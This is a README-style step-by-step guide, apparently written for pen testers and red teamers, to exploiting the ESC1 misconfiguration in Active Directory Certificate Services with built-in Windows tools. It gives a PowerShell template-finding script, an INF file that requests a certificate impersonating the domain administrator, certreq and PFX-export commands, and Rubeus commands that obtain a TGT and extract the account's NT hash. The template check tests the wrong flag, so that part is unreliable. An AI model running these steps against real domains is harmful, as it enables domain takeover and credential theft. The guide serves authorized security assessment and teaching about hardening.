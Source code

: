 # ESC1_Build_In_Script

This script is designed to assist penetration testers and Red Teamers in conducting security assessments.

When operating in "live infrastructure," leveraging automation tools signed by native security and control mechanisms within Active Directory environments can introduce challenges, as these tools are tightly integrated with domain infrastructure.

In this guide, I will demonstrate how to exploit the ESC1 vulnerability in an Active Directory environment with Active Directory Certificate Services (ADCS). This will be achieved without relying on third-party tools, using only built-in Windows utilities.

The process includes:

Identifying a vulnerable certificate template configured with misconfigurations that allow unauthorized certificate enrollment.
Requesting a certificate on behalf of any user in the domain by exploiting the identified vulnerable template.
Utilizing the certificate for impersonation to escalate privileges or access restricted resources.
This demonstration highlights the importance of proper certificate template hardening and serves as a practical guide to understanding the risks associated with improperly secured ADCS implementations.

This guide is intended for authorized security assessments only. Unauthorized use or actions without proper consent may violate laws and regulations. Always ensure you have explicit permission before conducting such activities.

Enjoy learning and, most importantly, stay safe!

## **Step-by-Step Instructions**

### 1. **Find The Vulnerable Templates:**
```
$templateBlocks = $templates -split "Template\["

foreach ($block in $templateBlocks) {

    if ($block -match "TemplatePropCommonName = (.+)") {
        $templateName = $matches[1]
    } else {
        continue
    }


    $hasClientAuth = $block -match "1\.3\.6\.1\.5\.5\.7\.3\.2"


    $hasSupplyInRequest = $block -match "CT_FLAG_INCLUDE_SYMMETRIC_ALGORITHMS"


    $hasEnrollPermissions = $block -match "Allow Enroll.*Authenticated Users" -or $block -match "Allow Enroll.*Domain Users"

    if ($hasClientAuth -and $hasSupplyInRequest -and $hasEnrollPermissions) {
        Write-Output "Template: $templateName"
        Write-Output "  - Client Authentication EKU Found"
        Write-Output "  - Supply in Request Found"
        Write-Output "  - Enroll Permission for Authenticated Users or Domain Users Found"
        Write-Output ""
    }
}
```

### 2. **Create an INF file**
```ini
[Version]
Signature="$Windows NT$"

[NewRequest]
Subject = "CN=administrator, OU=Users, DC=shkud, DC=local" 
KeySpec = 1
KeyLength = 2048
Exportable = TRUE
MachineKeySet = FALSE
ProviderName = "Microsoft Enhanced Cryptographic Provider v1.0"
ProviderType = 12
RequestType = PKCS10
KeyUsage = 0xa0

[EnhancedKeyUsageExtension]
OID=1.3.6.1.5.5.7.3.2

[Extensions]
2.5.29.17 = "{text}"
_continue_ = "dns=shkud.local&upn=administrator@shkud.local"
```

Change the Subject record to the Distinguished Name (DN) of the user account you want to impersonate:
```
Subject = "CN=administrator, OU=Users, DC=shkud, DC=local"
```

Additionally, update the continue record as well:
```
_continue_ = "dns=shkud.local&upn=administrator@shkud.local"
```

### 3. **After creating the INF file, generate a CSR file using the following command:**
```
certreq -new My_request.inf My_request.csr
```

### 4. **Next, submit the CSR to the CA server, specifying the desired certificate template, and save the issued certificate:**
```
certreq -submit -attrib "CertificateTemplate:My_Template" My_request.csr My_Cert.cer
```

### 5. **Finally, accept and install the issued certificate using the following command:**
```
certreq -accept My_Cert.cer
```

### 6. **Next, locate the Thumbprint of the certificate by running the following command:**
```
Get-ChildItem Cert:\CurrentUser\My
```

### 7. **Afterward, generate a PFX file by executing the following commands:**
```
$password = ConvertTo-SecureString -String '1qaz!QAZ' -AsPlainText -Force
Export-PfxCertificate -Cert Cert:\CurrentUser\My\5440925da4167c5f92cd9cf66a4f68622f63e1c7 -FilePath administrator.pfx -Password $password
```

### 8. **Now, with the PFX file, you can use Rubeus to request a TGT (Ticket Granting Ticket) using the certificate. Execute the following command:**
```
.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:1qaz!QAZ /dc:dc.shkud.local /domain:shkud.local /ptt
```

Of course, since we're working with the PKINIT protocol, we can exploit the use of the User-to-User (U2U) mechanism. This allows us to request a TGS (Ticket Granting Service) for a service that belongs to ourselves (yes, it sounds strange, but it works).

The TGS ticket we receive will include a PAC (Privilege Attribute Certificate), and within that PAC, we can extract the NT Hash of the user account we impersonated.

Just add the /getcredentials flag with the rubeus tool:
```
.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:1qaz!QAZ /dc:dc.shkud.local /domain:shkud.local /getcredentials
```
